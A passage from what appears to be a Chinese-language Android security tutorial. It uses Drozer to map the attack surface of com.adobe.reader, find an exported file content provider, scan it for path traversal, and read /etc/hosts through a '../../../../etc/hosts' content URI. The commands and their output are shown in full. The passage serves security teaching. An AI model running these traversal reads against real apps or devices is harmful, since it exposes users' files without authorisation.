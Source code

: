 ```

让我们找出攻击面。

```
dz> run app.package.attacksurface com.adobe.reader
Attack Surface:
 1 activities exported
 0 broadcast receivers exported
 1 content providers exported
 0 services exported
dz>

```

有趣的是，有一个内容提供者被导出。下一步是找出内容提供者 URI。这可以使用`scanner.provider.finduris.`完成

```
dz> run scanner.provider.finduris -a com.adobe.reader
Scanning com.adobe.reader...
Unable to Query  content://com.adobe.reader.fileprovider/
Unable to Query  content://com.adobe.reader.fileprovider

No accessible content URIs found.
dz>

```

如果你注意到，Drozer 说没有找到可访问的内容 URI。这并不奇怪，因为它正试图从数据库中读取数据，而且它是一个基于文件的提供者。让我们看看应用中是否存在任何遍历漏洞。这可以使用以下命令完成：

```
dz> run scanner.provider.traversal -a com.adobe.reader

```

运行上述命令将导致以下结果：

```
dz> run scanner.provider.traversal -a com.adobe.reader
Scanning com.adobe.reader...
Not Vulnerable:
 No non-vulnerable URIs found.

Vulnerable Providers:
 content://com.adobe.reader.fileprovider/
 content://com.adobe.reader.fileprovider
dz> 

```

正如您在前面的摘录中所看到的，存在一个易受路径遍历攻击的内容提供程序 URI。此漏洞允许攻击者从设备读取任意文件，如下一节所述。

### 正在阅读/etc/hosts

主机文件包含由第一个文本字段中的 IP 地址和一个或多个主机名组成的文本行。在类 UNIX 机器中，`/etc/hosts`是此文件的位置。让我们看看攻击者如何使用易受攻击的应用读取此文件。

```
dz> run app.provider.read content://com.adobe.reader.fileprovider/../../../../etc/hosts
127.0.0.1	      localhost
